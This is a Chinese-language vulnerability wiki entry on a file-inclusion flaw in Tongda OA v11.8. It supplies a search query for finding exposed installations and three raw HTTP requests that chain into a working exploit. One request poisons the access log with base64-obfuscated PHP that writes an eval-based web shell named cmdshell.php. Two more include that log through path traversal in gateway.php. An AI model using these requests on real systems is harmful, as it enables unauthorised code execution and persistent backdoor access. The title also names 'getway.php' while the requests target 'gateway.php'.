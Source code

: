 # 通达OA v11.8 getway.php 远程文件包含漏洞

## 漏洞描述

通达OA v11.8 getway.php 存在文件包含漏洞，攻击者通过发送恶意请求包含日志文件导致任意文件写入漏洞

## 漏洞影响

<a-checkbox checked>通达OA v11.8</a-checkbox></br>

## 网络测绘

<a-checkbox checked>app="TDXK-通达OA" </a-checkbox></br>

## 漏洞复现

登陆页面

![img](/assets/PeiQi-Wiki/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a-20220313173009245.png)

发送恶意请求让日志被记录

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](/assets/PeiQi-Wiki/img/1628304243872-a7ae1965-2e21-4551-9d92-b42a3468617b.png)

在通过漏洞包含日志文件

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](/assets/PeiQi-Wiki/img/1628304347438-754f2570-1b25-4e9e-b822-ec78c2ca944a.png)

再次发送恶意请求写入文件

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](/assets/PeiQi-Wiki/img/1628304579748-4614da68-4756-43a6-b7c1-dc6e9e034819.png)

访问写入的文件 `/mac/cmdshell.php`

![img](/assets/PeiQi-Wiki/img/1628304836865-aee81900-a2a1-402c-9915-77a3d908e480.png)